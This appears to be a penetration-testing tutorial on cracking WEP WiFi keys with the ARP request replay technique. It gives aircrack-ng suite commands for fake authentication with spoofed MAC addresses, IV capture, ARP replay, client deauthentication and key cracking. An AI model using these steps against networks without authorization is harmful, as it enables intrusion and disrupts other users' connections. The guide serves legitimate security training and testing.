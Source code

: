 # ARP Request Replay Attack

## ARP Request Replay Attack

***

The ARP Request Replay attack is a classic technique used to crack WEP authentication in WiFi networks. It involves intercepting and replaying ARP (Address Resolution Protocol) requests to gather Initialization Vectors (IVs) necessary for the WEP key recovery. Here's a comprehensive guide to executing this attack:

\<aside> 🗣️ Please exercise extreme caution and ensure that you have the necessary permissions and legal authorization before attempting any WiFi network attacks. This guide is provided for educational purposes only, and any unauthorized or malicious use of these techniques is strictly prohibited and may have legal consequences.

\</aside>

Be aware that capturing enough IVs for WEP authentication can take considerable time, especially if the target WiFi network is not heavily used. Prepare for a waiting game that may span days.

### **Fake Authentication with Non-Existing MAC Address**

Initiate fake authentication to a WiFi network using a non-existing MAC address while keeping the connection alive

```bash
aireplay-ng --fakeauth 6000 -o 1 -q 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF -h FF:FF:FF:FF:FF:FF
```

### **Fake Authentication with Existing MAC Address**

If MAC address filtering is active, perform fake authentication using an existing MAC address:

```bash
aireplay-ng --fakeauth 0 wlan1 -e essid -a FF:FF:FF:FF:FF:FF -h FF:FF:FF:FF:FF:FF
```

### **Monitor IVs Capture Progress**

Keep an eye on the number of captured IVs by running 'airodump-ng' against the target WiFi network. Monitor the Data column and aim to capture around 100k IVs

```bash
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```

### **Initiate ARP Request Replay Attack**

Start the standard ARP request replaying against the target WiFi network:

```bash
aireplay-ng --arpreplay wlan1 -e essid -a FF:FF:FF:FF:FF:FF -h FF:FF:FF:FF:FF:FF
```

### **Deauthenticate Clients**

If necessary, you can deauthenticate clients from the WiFi network to disrupt their connections

```bash
aireplay-ng --deauth 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

### **Crack the WEP Authentication**

Once you've captured a sufficient number of IVs, it's time to crack the WEP authentication. Use 'aircrack-ng' with the following command:

```bash
aircrack-ng -e essid -b FF:FF:FF:FF:FF:FF replay_arp*.cap
```
